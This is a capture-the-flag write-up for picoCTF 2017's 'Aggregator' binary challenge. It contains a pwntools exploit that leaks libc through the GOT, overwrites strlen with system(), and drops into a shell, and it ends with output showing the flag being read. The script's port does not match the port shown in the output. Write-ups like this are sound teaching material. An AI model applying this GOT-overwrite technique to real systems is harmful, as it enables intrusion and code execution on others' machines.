 # PicoCTF_2017: Aggregator

**Category:** Binary
**Points:** 190
**Description:**

I wrote a program to help me synthesize my log files. You can edit the log files to add annotations that will print out aggregated information. Because the original program that outputs the logs was a bit faulty, I also included the ability to clear a single day of logs.  
Find my aggregator running on shell2017.picoctf.com:7785. [aggregator.c](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator.c)  [aggregator](https://webshell2017.picoctf.com/static/2745e04028ecf1c8ae15c70bb085f5e6/aggregator)

**Hint:**

Does it look like there is a stack vulnerability?

## Write-up
```python
#!/usr/bin/env python2

from pwn import *

from struct import pack,unpack

FREE_GOT_PLT = 0x601EF0

STRLEN_GOT_PLT = 0x601F00

FREE_OFFSET = 0x7c600

SYSTEM_OFFSET = 0x41490

r = remote("shell2017.picoctf.com", 8708)

r.send("09-24-2018 0\n")

r.send("~09-24-2018\n")

payload = pack("<Q",FREE_GOT_PLT)+pack("<Q",24)+pack("<Q",2)+pack("<Q",1)+pack("<Q",0)

r.send(payload+"\n")

r.recv()

r.send("ax 09-2018\n")

free_libc = int(r.recv().splitlines()[-1])

libc_base = free_libc-FREE_OFFSET

system_libc = libc_base+SYSTEM_OFFSET

r.send("09-25-2018 0\n")

r.send("~09-25-2018\n")

payload = pack("<Q",STRLEN_GOT_PLT)+pack("<Q",25)+pack("<Q",2)+pack("<Q",0)+pack("<Q",0)

r.send(payload+"\n")

r.send("09-25-2018 %d\n"%system_libc)

r.interactive()
```
```text
$ python solve.py 
[+] Opening connection to shell2017.picoctf.com on port 7785: Done
[*] Switching to interactive mode
$ ls
aggregator
flag.txt
xinetd_wrapper.sh
$ cat flag.txt
a65b3f946c058f6dbec3d14d8449a468
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNTEyNTUyMDAwLDM2NTI0MjgyXX0=
-->